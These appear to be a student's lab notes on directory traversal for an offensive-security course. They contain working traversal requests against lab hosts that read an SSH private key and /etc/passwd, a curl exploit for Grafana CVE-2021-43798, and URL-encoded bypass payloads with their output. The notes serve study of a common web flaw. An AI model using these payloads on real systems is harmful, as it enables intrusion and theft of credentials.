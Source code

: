 
### ABSOLUTE VS RELATIVE PATHS
![[Pasted image 20230930071008.png]]
### DIRECTORY TRAVERSAL

https://sql--injection.blogspot.com/p/directory-traversal.html

you can use as many ../../ as possible because it can go as back as the food folders but no more

Notice that the page has a index.php
![[Pasted image 20230927201339.png]]

Notice that the admin link has a admin.php
![[Pasted image 20230927201458.png]]
Using Dir xversal we can see
![[Pasted image 20230927201746.png]]
![[Pasted image 20230927201808.png]]

http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../../../home/offsec/.ssh/id_rsa

you can use curl to get the key in a better format

once you get the key, save it in a txt using the mousepad command (user friendly)

once done, change the permissions of the file with the key!

chmod 400 "file"

make sure you copy the whole key (including the start/end sentence)
![[Pasted image 20230927202840.png]]


Using Grafana for CVE 2021-43798
https://github.com/taythebot/CVE-2021-43798
curl --path-as-is http://192.168.249.193:3000/public/plugins/alertlist/../../../../../../../../../Users/install.txt

### ENCODING SPECIAL CHARACTERS

https://blog.certcube.com/a-guide-to-directory-traversal-vulnerability/

If you cannot get information with regular directory traversal, use special encoding
┌──(hollacosta㉿kali1)-[~]
└─$ curl http://192.168.249.16/cgi-bin/../../../../../../../etc/passwd
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>

┌──(hollacosta㉿kali1)-[~]
└─$ curl http://192.168.249.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin


 curl --path-as-is http://192.168.249.16:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fopt/install.txt

![[Pasted image 20230928110120.png]]

